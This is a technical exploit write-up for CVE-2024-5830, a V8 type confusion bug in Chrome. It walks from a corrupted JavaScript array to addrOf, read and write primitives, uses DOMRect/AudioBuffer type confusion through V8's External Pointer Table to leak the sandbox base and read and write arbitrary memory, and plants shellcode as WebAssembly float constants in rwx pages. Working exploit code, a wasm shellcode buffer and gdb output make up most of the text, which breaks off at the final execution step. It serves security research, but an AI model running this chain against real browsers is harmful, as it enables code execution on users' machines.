


CVE-2024-5830 is a type confusion bug in V8, the JavaScript engine behind Chrome. Like most V8 bugs, it does not hand you code execution — it hands you a corrupted array. Everything after that is exploitation work, and that work is what this document is about.

We pick up at the point where the bug has already given us a double array whose `length` and `elements` fields we control, and walk the entire path from there to a shell:

1. **Building the primitives** — turning a single out-of-bounds array into `addrOf`, `read`, and `write`.
2. **Leaking the sandbox base** — abusing the External Pointer Table to type-confuse the `type` and `data` fields of a `DOMRect`, leaking `blink::V8DOMRectReadOnly::wrapper_type_info_`, and from it the base of V8's 1TB sandbox.
3. **Arbitrary R/W** — confusing `DOMRect` with an `AudioBuffer` channel so that `copyFromChannel` and `copyToChannel` read and write anywhere in the renderer's address space.
4. **Code execution** — smuggling shellcode into WebAssembly's `rwx` pages as 64-bit float constants, locating those pages at runtime, and jumping straight into them.

Every step is walked through with the relevant exploit code, the V8 object layouts it depends on, and the gdb output that makes those layouts concrete. A little familiarity with V8 internals — pointer compression, SMIs, `JSArray` layout — will help, but the structures are laid out as we need them.
# addrOf – Address-Of Primitive

The `addrOf` primitive relies on two carefully crafted auxiliary arrays:

1. **`corrupted_arr`** — A corrupted array that provides out-of-bounds (OOB) read/write capabilities.
2. **`oobObjArr`** — An object array placed adjacently in memory, used to leak actual addresses of JavaScript objects.

```js
function addrOf(obj) 
{  
	var offset = 9;   
	var dbl = 0;   
	oobObjArr[0] = obj;    
	if (typeof(Mojo) !== "undefined") 
	{     
		offset = 14;     
		dbl = 1;   
	}    
	var addrDbl = corrupted_arr[offset];   
	return ftoi32(addrDbl)[dbl]; 
}
```
## corrupted_arr

```js
var fakeDblArray = [1.1, 2.2];
fakeDblArray[0] = i32tof(dblArrMap, 0x725);       // Crafted Map pointer
fakeDblArray[1] = i32tof(fakeDblArrayEle, 0x100); // Elements pointer + length
```

`corrupted_arr` is a **double array** that has been tampered with to allow out-of-bounds access.  `corrupted_arr` is basically `fakeDblArray` with the `length` field modified to 0x100 (originally it was two). This gives us an OOB R/W using the `corrupted_arr`. 

In the exploit we make the 3 arrays as shown below:

```js
var fakeDblArray = [1.1,2.2];
var oobDblArr = [2.2];
var oobObjArr = [view];
```

The arrays in heap are placed next to each other. So, by achieving OOB R/W in `corrupted_arr` we can R/W `oobDblArr` and `oobObjArr`. We simply place the object of our choice in `oobObjArr` and read the first element (address of desired object).

Here’s what this layout achieves:

1. `fakeDblArray` is treated as a legitimate JS array object by V8.
2. `fakeDblArray[0]` simulates the `map` and `properties` fields.
3. `fakeDblArray[1]` encodes the `elements` pointer and the array `length`.

### V8 JSArray Memory Layout (64-bit, Pointer Compression ON)

```
JSArray:
0x00 - map           ; 4-byte compressed pointer to hidden class
0x04 - properties    ; 4-byte compressed pointer (often NULL or empty)
0x08 - elements      ; 4-byte compressed pointer to element storage
0x0C - length        ; tagged SMI (e.g. 3 → 0x7)

FixedArray (elements backing store):
0x00 - map
0x04 - length
0x08 - element[0]
0x0C - element[1]
```

> Notes:
> - Compressed pointers are 32-bit offsets from the Isolate root.
> - SMIs (Small Integers) are tagged with LSB = 0.
> - Objects are 8-byte aligned even if fields are 4 bytes.

By exploiting a V8 vulnerability, we can redirect the `elements` pointer of `corrupted_arr` to point to `fakeDblArray.elements + 0x8`. This tricks V8 into interpreting it as a legitimate double array with out-of-bounds access.

---

## oobObjArr

While `corrupted_arr` provides OOB access, it's a **double array**, so it cannot directly store object references. To leak object addresses, we use a second array—`oobObjArr`—which is an **object array** placed adjacently in memory.

The setup ensures that:

- `oobObjArr[0] = someObject` stores a real object reference.
- `corrupted_arr[n]` accesses the backing store `oobObjArr`, allowing the address of `someObject` to be leaked as a `double`.

Depending on whether **Mojo IPC** is enabled:
- The object pointer is located at `corrupted_arr[9]` when Mojo is **disabled**.
- The pointer shifts to `corrupted_arr[14]` (or index `7` in some variants) when Mojo is **enabled**.

This index difference is handled in the `addrOf` function by adjusting the `offset` and the index into the returned float’s 64-bit representation.



# Helper Functions

Lets take a moment to talk about the some helper functions used in the exploit, such as `ftoi32()`, `i32tof()`, `itof()`, `ftoi()`.

```js
var view = new ArrayBuffer(24);
var dblArr = new Float64Array(view);
var intView = new Uint32Array(view);
var bigIntView = new BigInt64Array(view);
```

We implement these helper functions using `ArrayBuffer`. The `dblArr`, `intView`, `bigIntView`, all point to the same memory of length 24-bytes. This way we can store a value as `Double` and read it as `Integer` by simply reading the `intView` array. It allows for easy conversion of types.

## ftoi32() and i32tof()

```js
function ftoi32(f) {
    dblArr[0] = f;
    return [intView[0], intView[1]];
}

function i32tof(i1, i2) {
    intView[0] = i1;
    intView[1] = i2;
    return dblArr[0];
}
```

`ftoi32()` - Stores the value in `dblArr` as `Float64`. We read the 8-byte value as two 4-byte integer values.

`i32tof()`- Stores two 4-byte integers in the `ArrayBuffer` and reads them as an 8-byte float value.

## itof() and ftoi()

```js
function itof(i) {
    bigIntView = BigInt(i);
    return dblArr[0];
}

function ftoi(f) {
    dblArr[0] = f;
    return bigIntView[0];
}
```

`itof()` - Stores a `BigInt64` in `ArrayBuffer` and reads and returns it as a `Float64`.
 `ftoi()` - Stores a `Float64` in `ArrayBuffer` and reads and returns it as a `BigInt64`.
 
# read - Read Primitive

Once we have understood the `addrOf` primitive, understanding the `read` and `write` primitives is easy.

## Plan of Action

1. Read the original value at `corrupted_arr[oobOffset]`, so that we can replace it afterwards.
2. At  `corrupted_arr[oobOffset]`, place the address where you want to read from. This is usually the address of the object you leaked from `addrOf` primitive.
3. Read the 64-bits from the given address using `ftoi32(oobDblArr[0])`. 
4. Replace the original elements value at `corrupted_arr[oobOffset]`.

```js
var oobOffset = 7;
function read(addr) {
  var old_value = corrupted_arr[oobOffset];
  corrupted_arr[oobOffset] = i32tof(addr,2);
  var oldAddr = ftoi32(old_value);
  var out = ftoi32(oobDblArr[0]);
  corrupted_arr[oobOffset] = old_value;
  return out;
}
```

## corrupted_arr[oobOffset]

The `corrupted_arr[oobOffset]` points to the address where `elements` of the `oobDblArr` is stored. We store the original `elements` and `length` of the `oobDblArr`.

Next, we replace them with the address of our choice in `elements` and 2 in `length`. Now, if we do `oobDblArr[0]`, we go to `elements + 0x8` (because we have 4-byte `map` and 4-byte `length`) and return the 8-bytes from there. 

Note:
> - We actually read at `<addr_of_choice> + 0x8`, so remember to account for that.

```
JSArray:
0x00 - map
0x04 - properties
0x08 - elements -> Replace with <object_addr>
0x0C - length -> Replace with 2

FixedArray (elements backing store):
<object_addr>+0x0 - map
<object_addr>+0x4 - length
<object_addr>+0x8 - element[0] -> data accessed when we do oobDblArr[0]
<object_addr>+0xC - element[1] -> next 4-bytes 
```

Finally, we replace the original values onto the memory.

## oobDblArr

Once we have leaked the address of our desired object, we use the OOB R/W from the`corrupted_arr` again and overwrite the `elements` field of the `oobDblArr` to the object address that we leaked. This way we can read and write to any object inside v8.

# write - Write Primitive

This is exactly the same as `read` primitive. The difference is just that we write to `oobDblArr[0]` instead of reading from it. 

# Creating a more powerful OOB R/W primitive

With the explanation of primitives out of the way, we will now see how we can leverage these primitives to get complete control over the renderer process address space. Each step below will be explained in detail in the document.

1. Create type confusion between `type` and `data` of `DOMRect`. This way we can leak type information, specifically the address of `_ZN5blink17V8DOMRectReadOnly18wrapper_type_info_E` to get the base of v8 sandbox.
2. Create type confusion between `type` and `data` of `DOMRect` and `AudioBuffer` (a channel of AudioBuffer to be precise). This way we can R/W on the `DOMRect` but the data will be read and written to the `channel` of `AudioBuffer`.
3. Use `copyFromChannel` and `copyFromChannel` to read and write anywhere in the renderer process. 


> Notes:
> - The upper bits of the addresses can be different sometimes below
## Leaking base of v8 sandbox

Let's take a look at how the type confusion is created to leak the type information and eventually leaking the `trusted_cage_base` that is basically the base of 1TB v8 sandbox. This gives us complete control over R/W inside the renderer process. 

Let's take a look at the exploit and try to understand what it does.

```js
var domRect = new DOMRect(1.1,2.3,3.3,4.4);
var node = new AudioBuffer({length: 3000, sampleRate: 30000, numberOfChannels : 2});
var channel = node.getChannelData(0);
var channelAddr = addrOf(channel);
var channelInstance = read(channelAddr + 0x3c);
var rectAddr = addrOf(domRect);
var rectInstance = read(rectAddr + 0x10);
var rectType = read(rectAddr + 0x8);
```

We create `DOMRect` and `AudioBuffer` and get its `channel`. The code written next use the `addrOf` and `read` primitives to get the `instance` and `type`. So, what are these `instance` and `type`. First, let's look at the Debug output of the `DOMRect` and `channel`. We use `%DebugPrint()` in the exploit (can be enabled with `./chrome --js-flags="--allow-natives-syntax")` and get the following output:

```text
DebugPrint: 0x3878001571b1: [[api object] 0]
 - map: 0x3878000d9075 <Map[32](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x387800156e79 <Object map = 0x3878000d8ffd>
 - elements: 0x387800000725 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - properties: 0x387800000725 <FixedArray[0]>
 - All own properties (excluding elements): {}
 - embedder fields = {
    0, aligned pointer: 0x5e75596b1070
    0, aligned pointer: 0x30a70010bdb8
 }
0x3878000d9075: [Map] in OldSpace
 - map: 0x387800082cf9 <MetaMap (0x387800082d49 <NativeContext[291]>)>
 - type: [api object] 0
 - instance size: 32
...
 - constructor: 0x3878000d9055 <JSFunction DOMRect (sfi = 0x3878000d9025)>
 - dependent code: 0x387800000735 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0

DebugPrint: 0x387800157609: [[api object] 0]
 - map: 0x3878000d95dd <Map[32](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x38780015738d <Object map = 0x3878000d9451>
 - elements: 0x387800000725 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - properties: 0x387800000725 <FixedArray[0]>
 - All own properties (excluding elements): {}
 - embedder fields = {
    0, aligned pointer: 0x5e75596dcf40
    0, aligned pointer: 0x30a70010be10
 }
0x3878000d95dd: [Map] in OldSpace
 - map: 0x387800082cf9 <MetaMap (0x387800082d49 <NativeContext[291]>)>
 - type: [api object] 0
 - instance size: 32
...
 - constructor: 0x3878000d95bd <JSFunction AudioBuffer (sfi = 0x3878000d958d)>
 - dependent code: 0x387800000735 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0
```

We can see both are marked as `api object`. These objects are backed by native C++ objects and the JS object is just a wrapper object referencing native browser code in C++. `DOMRect` and `AudioBuffer` are specifically `Blink` wrapper objects. 

## A little introduction to v8 Sandbox

Before we go further let's take a moment to understand the v8 sandbox and how the `embedder fields` are related to it. The objective of v8 sandbox as defined by v8 dev is as follows:

```txt
Build an in-process sandbox for V8 to prevent an attacker who successfully exploited a V8 vulnerability, and thus is able to corrupt objects inside the V8 heap, from corrupting other memory in the process and thus from executing arbitrary code.
```

The following image again taken from [V8 Sandbox - High-Level Design Doc](https://docs.google.com/document/d/1FM4fQmIhEqPG8uGp5o9A-mnPB5BOeScZYpkHjo0KKA8/edit?tab=t.0#heading=h.xzptrog8pyxf) does a great job of helping in visualizing the sandbox:



Let's see a small description for each table mentioned above outside the sandbox:

- **Trusted Pointer Table:** V8 objects managed by V8’s garbage collector but located outside of the sandbox for security reasons are referenced by the TPT.
- **Code Pointer Table:** Executable code, which is managed by V8’s garbage collector but allocated in a dedicated code space, located outside of the sandbox is referenced via CPT.
- **External Pointer Table:** Non-V8 objects that are not directly managed by V8’s garbage collector. These include all embedder-managed objects such as DOM nodes and many other types of objects are referenced by EPT.

From the **External Pointer Table** description above, it becomes pretty clear what table references the `DOMRect` and `AudioBuffer` Blink objects. It is the External Pointer Table (EPT). Again according to official docs we see that:

```txt
The object fields now instead contain an index into an EPT in which the actual pointer to the the object is stored. This index is also called an external pointer handle. As the table is located outside the sandbox, an attacker can only corrupt the handles, but not the actual pointers.
```

But you might be wondering that there is no index in the `embedder fields` of the debug output we saw above. It is because in debugging we see the fully resolved addresses. In the real case, the memory only has indexes to the EPT as we will see below.

```text
(gdb) x/10wx 0x3878001571b1-1
0x3878001571b0:	0x000d9075	0x00000725	0x00000725	0x00000000
0x3878001571c0:	0x00000000	0x000af100	0x00000000	0x000af0c0
0x3878001571d0:	0x00000cc1	0x0000000c
```

The fields `0x000af100` and `0x000af0c0` are the actual indexes into the EPT for `type` and `data` respectively. 

## Back to type confusion

The exploit code for type confusion is:

```c++
write(rectAddr + 0x10, rectType[0], rectType[1]);
//V8DOMRectReadOnly18wrapper_type_info_E
var typeInfo = ftoi32(domRect.width);
```

Now, let's read the EPT description again quoted above. It says: `an attacker can only corrupt the handles, but not the actual pointers`. This is how the type confusion will be created. If we replace the index with some other valid index, we are not breaking any rules and voila we have a type confusion.

We replace the `0x000af0c0` (index to data) with `0x000af100` (the index to type). So, when we read from `DOMRect` we will return the `type` of `DOMRect`. Let's take a look at it in memory. To get the resolved address we take help from `embedder fields` from the debug output. As mentioned before, the first address represents `type` and the second represents the `data`.

```txt
(gdb) x/10gx 0x5e75596b1070
0x5e75596b1070 <_ZN5blink9V8DOMRect18wrapper_type_info_E>:	0x0000000000000001	0x00005e75570d0ea0
0x5e75596b1080 <_ZN5blink9V8DOMRect18wrapper_type_info_E+16>:	0x0000000000000000	0x00005e754b3b17f4
0x5e75596b1090 <_ZN5blink9V8DOMRect18wrapper_type_info_E+32>:	0x00005e75596b11b8	0x0000000000000008
0x5e75596b10a0 <_ZN5blink7DOMRect18wrapper_type_info_E>:	0x00005e75596b1070	0x0000000000000000
```

We can see that we are getting `_ZN5blink9V8DOMRect18wrapper_type_info_E` or generally type information by going to the resolved `type` address. Let's also take a moment to take a look at structure of `DOMRect` in chromium source code at `third_party/blink/renderer/core/geometry/dom_rect.idl`.

```idl
[
    Exposed=(Window,Worker),
    Serializable
] interface DOMRect : DOMRectReadOnly {
    constructor(optional unrestricted double x = 0,
                optional unrestricted double y = 0,
                optional unrestricted double width = 0,
                optional unrestricted double height = 0);
    [NewObject] static DOMRect fromRect(optional DOMRectInit other = {});
...
};
```

We can see that `DOMRect` has 4 members: `x`, `y`, `width`, `height`. We can also see that `DOMRect` extends `DOMRectReadOnly`. 

Now, If we look at the `data` address we will see:

```text
(gdb) x/10gx 0x30a70010bdb8
0x30a70010bdb8:	0x00005e75595c42c0	0x00002b0c006d2980
0x30a70010bdc8:	0x3ff199999999999a	0x4002666666666666
0x30a70010bdd8:	0x400a666666666666	0x401199999999999a
0x30a70010bde8:	0x0008074500000000	0x00005e75596dd058
0x30a70010bdf8:	0x0000000200000bb8	0x0000000046ea6000
(gdb)
```

We can see at `0x30a70010bdb8+0x16` the four float64 values of `DOMRect(1.1,2.3,3.3,4.4);`. This also tells us that `x` is at offset 16, `y` at offset 24, `width` at offset 32 and `height` at offset 40. Below is visual representation of it.

```text
(gdb) x/10gx 0x30a70010bdb8
0x30a70010bdb8:	0x00005e75595c42c0	0x00002b0c006d2980
0x30a70010bdc8:	        X	                Y
0x30a70010bdd8:	      WIDTH	              HEIGHT
0x30a70010bde8:	0x0008074500000000	0x00005e75596dd058
0x30a70010bdf8:	0x0000000200000bb8	0x0000000046ea6000
(gdb)
```

According to the exploit we are doing: `var typeInfo = ftoi32(domRect.width);`. As we have created a type confusion `DOMRect` instead of giving back `3.3` will go to `<addr_of_type> + 32` and give back the value present there which is `0x00005e75596b11b8`. Cool, we have leak the type info but what is this address? Let's see in memory:

```text
(gdb) x/10gx 0x00005e75596b11b8
0x5e75596b11b8 <_ZN5blink17V8DOMRectReadOnly18wrapper_type_info_E>:	0x0000000000000001	0x00005e75570d2e30
0x5e75596b11c8 <_ZN5blink17V8DOMRectReadOnly18wrapper_type_info_E+16>:	0x0000000000000000	0x00005e754b331de4
0x5e75596b11d8 <_ZN5blink17V8DOMRectReadOnly18wrapper_type_info_E+32>:	0x0000000000000000	0x0000000000000008
0x5e75596b11e8 <_ZN5blink15DOMRectReadOnly18wrapper_type_info_E>:	0x00005e75596b11b8	0x00005e754b348602
```

The above shows that we get the address of `_ZN5blink17V8DOMRectReadOnly18wrapper_type_info_E`. 

##  trustedOffset

Next, we shall see how to get the `trustedOffset`. It is basically the offset from `_ZN5blink17V8DOMRectReadOnly18wrapper_type_info_E` to `_ZN2v88internal11TrustedCage5base_E`. We need it to get the base address of the v8 sandbox

```txt
(gdb) p &_ZN2v88internal11TrustedCage5base_E
$1 = (uintptr_t *) 0x5e7559a434f0 <v8::internal::TrustedCage::base_>
(gdb) p &_ZN5blink17V8DOMRectReadOnly18wrapper_type_info_E
$2 = (const blink::WrapperTypeInfo *) 0x5e75596b11b8 <blink::V8DOMRectReadOnly::wrapper_type_info_>
(gdb) p/x 0x5e7559a434f0 - 0x5e75596b11b8
$3 = 0x392338
(gdb)
```

So, `0x392338` is the difference between our leaked type info address and the address where the `TrustedCage base` is stored. With type info and offset we can easily leak the base address of v8 sandbox and get control of entire renderer address space. This is achieved in the exploit as follows:

```c++
var trustedBase = i32tof(typeInfo[0] + trustedOffset, typeInfo[1]);
```

# Creating a type confusion to gain arbitrary R/W

Right now, we have been reading and writing on 32-bit addresses inside the v8 heap. Now, that we have fully resolved addresses like `typeInfo` we need another way to R/W on 64-bit addresses.
For this we create another type confusion between `channel` and `DOMRect`. The exploit achieves this using: 

```c++
write(rectAddr + 0x10, channelInstance[0], channelInstance[1]);
```

We replace the `data` of `DOMRect` with `data` of `channel`. Anything we R/W from `DOMRect` will be read from and written to the `channel`.  Let's also take a look at `channel`:

```text
DebugPrint: 0x387800157749: [JSTypedArray]
 - map: 0x38780009393d <Map[76](FLOAT32ELEMENTS)> [FastProperties]
 - prototype: 0x3878000939d1 <Object map = 0x387800093965>
 - elements: 0x387800000ec1 <ByteArray[0]> [FLOAT32ELEMENTS]
 - embedder fields: 2
...
 - embedder fields = {
    0, aligned pointer: 0x5e7559637508
    0, aligned pointer: 0x30a70010be40
 }
0x38780009393d: [Map] in OldSpace
 - map: 0x387800082cf9 <MetaMap (0x387800082d49 <NativeContext[291]>)>
 - type: JS_TYPED_ARRAY_TYPE
 - instance size: 76
...
 - constructor: 0x387800093909 <JSFunction Float32Array (sfi = 0x38780029210d)>
 - dependent code: 0x387800000735 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0
```

`channel` is `JSTypedArray` outside the v8 sandbox and we can also see its `embedder fields`. We can also see `type` and `data` in memory for the `channel` at offset 0x48:

```txt
(gdb) x/20wx 0x387800157749-1
0x387800157748:	0x0009393d	0x00000725	0x00000ec1	0x00000000
0x387800157758:	0x00157705	0x00000000	0x00000000	0x00000000
0x387800157768:	0x00000000	0x000005dc	0x00000000	0x00000177
0x387800157778:	0x00000000	0x040001c0	0x00000000	0x00000000
0x387800157788:	0x000af4c0	0x00000000	0x000af480	0x00000635
```

We can R/W from `channel` with `copyFromChannel` and `copyToChannel`. It expects as argument a `Float32Array`.  The v8 base address is leaked in exploit in the following way:

```c++
domRect.x = trustedBase;
var dst = new Float32Array(view);
//copyFromChannel and copyToChannel can then be used for arbitrary rw
node.copyFromChannel(dst, 0, 0);
//dispatch_table_from_imports address
var trustedCage = intView[1];
```

`trustedBase`(Address where base address of v8 sandbox is present) is put into `domRect.x`. But, due to type confusion we write `trustedBase` to `data` of `channel`. The `copyFromChannel` goes to `trustedBase`, dereferences it, fetches the value and puts it in `dst`. This is the `base address` of `v8 sandbox`.

```text
(gdb) x/10gx 0x5e7559a434f0
0x5e7559a434f0 <_ZN2v88internal11TrustedCage5base_E>:	0x000007de00000000	0x00005e7500000000
```

The `trustedCage` will have `0x7de` in it.

# Gaining code execution

Now, we have complete control over the renderer process address space. We have achieved arbitrary R/W. Next, we have to figure out how we can get code execution. The exploit writes the shellcode to `wasm rwx` pages and jumps to the shellcode within the executable code in the `rwx` page. There are a few questions that need to answered to achieve the above:

1. How to leak the address of `rwx` page?
2. How to make a `wasm buffer` that will contain our shellcode?

## Setting up wasm code

We add our shellcode to wasm so that it resides in the `rwx` pages using the [import_shell.js](https://github.com/github/securitylab/blob/main/SecurityExploits/Chrome/v8/CVE_2024_3833/import_shell.js) script. The script adds a new function `make_array` in which we define our shellcode. This shellcode is stored in memory as 64-bit Floating point numbers. Let's take an example to demonstrate it. First lets take an instruction from the `import_shell.js` `make_array` function.

```js
builder.addFunction("make_array", makeSig([], [wasmRefNullType(array)]))
         .addLocals(wasmRefNullType(array), 1)
         .addBody([kExprI32Const, 18, kGCPrefix, kExprArrayNewDefault, array, kExprLocalSet, 0,
                   kExprLocalGet, 0,
                   kExprI32Const, 0,
                   kExprF64Const, 0x31, 0xf6, 0x31, 0xd2, 0x31, 0xc0, 0xeb, 0x1d,
```

We can see the shellcode in the last line we wish to run. Let's see what happens in memory. 

```txt
0x127fdbc4794c:	movabs r10,0x1debc031d231f631
0x127fdbc47956:	movq   xmm0,r10
```

We can see that our shellcode is being handled as Floating point numbers and our bytes are in little endian. Once we have written our shellcode we can run the script and we get an array back and that is our `wasm` code. Next, we set up the `wasm` code in the exploit. 

```js
//Generated using import_shell.js
var wasmBuffer = new Uint8Array([0,97,115,109,1,0,0,0,1,16,3,80,0,94,124,1,96,1,124,1,124,96,0,1,99,0,2,25,1,7,105,109,112,111,114,116,115,13,105,109,112,111,114,116,101,100,95,102,117,110,99,0,1,3,3,2,1,2,7,21,2,4,109,97,105,110,0,1,10,109,97,107,101,95,97,114,114,97,121,0,2,10,136,2,2,6,0,32,0,16,0,11,254,1,1,1,99,0,65,18,251,7,0,33,0,32,0,65,0,68,49,246,49,210,49,192,235,29,251,14,0,32,0,65,1,68,104,108,99,0,0,144,235,32,251,14,0,32,0,65,2,68,104,47,120,99,97,88,235,32,251,14,0,32,0,65,3,68,104,47,98,105,110,91,235,32,251,14,0,32,0,65,4,68,144,144,72,193,224,32,235,32,251,14,0,32,0,65,5,68,72,1,216,80,84,95,235,32,251,14,0,32,0,65,6,68,86,87,84,94,144,144,235,32,251,14,0,32,0,65,7,68,104,58,49,0,0,144,235,32,251,14,0,32,0,65,8,68,104,76,65,89,61,88,235,32,251,14,0,32,0,65,9,68,104,68,73,83,80,91,235,32,251,14,0,32,0,65,10,68,144,72,193,224,32,144,235,32,251,14,0,32,0,65,11,68,72,1,216,80,84,144,235,32,251,14,0,32,0,65,12,68,65,90,82,65,82,84,235,32,251,14,0,32,0,65,13,68,90,184,59,0,0,0,235,32,251,14,0,32,0,65,14,68,15,5,90,49,210,82,235,32,251,14,0,32,0,11,0,26,4,110,97,109,101,1,19,2,1,4,109,97,105,110,2,10,109,97,107,101,95,97,114,114,97,121]
);
var module = new WebAssembly.Module(wasmBuffer);
var instance = new WebAssembly.Instance(module, importObject);
var func = instance.exports.make_array;
func();
```
We run the `func` so that our shellcode is created and the code is added to wasm `rwx` pages.

## Finding wasm rwx page address

Now, we need to find a way to leak the `rwx` page address so that we can access our shellcode in it. The exploit has implemented a function for that:

```js
function findImportTarget(startAddr) {
  var dispatchMap = 0x1f8d;
  var dstBuffer = new ArrayBuffer(0x1000);
  var dstFloat = new Float32Array(dstBuffer);
  var dstInt = new Uint32Array(dstBuffer);
  domRect.x = i32tof(startAddr, trustedCage);
  node.copyFromChannel(dstFloat, 0, 0);
  for (let i = 0; i < dstInt.length; i++) {
    if (dstInt[i] === 0x1f8d) {
      return i;
    }
  }
  return -1;
}
```

The code starts at `startAddr` and looks for an integer `0x1f8d`. Let's investigate how we can know what to search for and what `startAddr` to give. If we `%DebugPrint(instance)` we get:

```text
DebugPrint: 0x3878000af0c5: [WasmInstanceObject] in OldSpace
 - map: 0x38780009aa91 <Map[24](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x38780009ab3d <Object map = 0x3878000af075>
 - elements: 0x387800000725 <FixedArray[0]> [HOLEY_ELEMENTS]
 - trusted_data: 0x07de00040f99 <Other heap object (WASM_TRUSTED_INSTANCE_DATA_TYPE)>
 - module_object: 0x38780004d98d <Module map = 0x38780009a9dd>
 - exports_object: 0x38780004da71 <Object map = 0x3878000af329>
 - properties: 0x387800000725 <FixedArray[0]>
 - All own properties (excluding elements): {}

0x38780009aa91: [Map] in OldSpace
 - map: 0x387800082cf9 <MetaMap (0x387800082d49 <NativeContext[291]>)>
 - type: WASM_INSTANCE_OBJECT_TYPE
 - instance size: 24
...
 - constructor: 0x38780009aa71 <JSFunction Instance (sfi = 0x38780021f499)>
 - dependent code: 0x387800000735 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0
```

For the `startAddr` we can look at the `trusted_data`. We see that while other members like `module_object` or `exports_object`are in v8 heap, `trusted_data` is outside v8 heap pointer compression cage and inside the 1TB v8 sandbox. The value in `trusted_data` is `0x07de00040f99` so for `startAddr` we take value as `0x40000`. If `trusted_data` is for example `0x753d000607e5` we can have `startAddr` as `0x60000`.

Now, let's solve the mystery for `0x1f8d`. First we need to find the address of `rwx` page using `info proc mappings` in gdb.

```text
0xbe400420000      0xbe800000000 0x3ffbe0000        0x0  ---p   [anon:partition_alloc]
0x127fdbc47000     0x127fdbc49000     0x2000        0x0  rwxp   [anon:v8]
0x2b0bfffff000     0x2b0c00001000     0x2000        0x0  ---p   [anon:partition_alloc]
```

We have the address where `wasm` code is stored. As we already know the `startAddr` it is pretty straight forward to find `0x1f8d` in memory using gdb. 

```txt
(gdb) x/30gx 0x07de00040f99-0x45
0x7de00040f54:	0xc201ab005c210001	0x0bca01affff16400
0x7de00040f64:	0x00001f8d0000aff9	0x0000000100000001
0x7de00040f74:	0x0000127fdbc47840	0xffffffff00041051
```

We see that at `<addr_of_1f8d> + 0xc` there is an address from the `rwx` region we saw earlier. Throughout the executions, `0x1f8d` never changes and is always at the same offset from the `rwx` region address. `0x0000127fdbc47840` is the address where code is present. We can see that in gdb:

```asm
(gdb) x/100i 0x0000127fdbc47840
   0x127fdbc47840:	push   rbp
   0x127fdbc47841:	mov    rbp,rsp
   0x127fdbc47844:	push   0xa
   0x127fdbc47846:	push   rsi
   0x127fdbc47847:	movaps xmm0,xmm1
   0x127fdbc4784a:	mov    r10,rsp
...
   0x127fdbc4793c:	jae    0x127fdbc4794c
   0x127fdbc47942:	movsd  QWORD PTR [rax+rdx*1],xmm0
   0x127fdbc47947:	add    edx,0x8
   0x127fdbc4794a:	jmp    0x127fdbc4793a
   0x127fdbc4794c:	movabs r10,0x1debc031d231f631
   0x127fdbc47956:	movq   xmm0,r10
```

## Executing our shellcode

```js
var exported = instance.exports.main;
var code = i32tof(startAddr + codeIdx * 4 + 0xc, trustedCage);
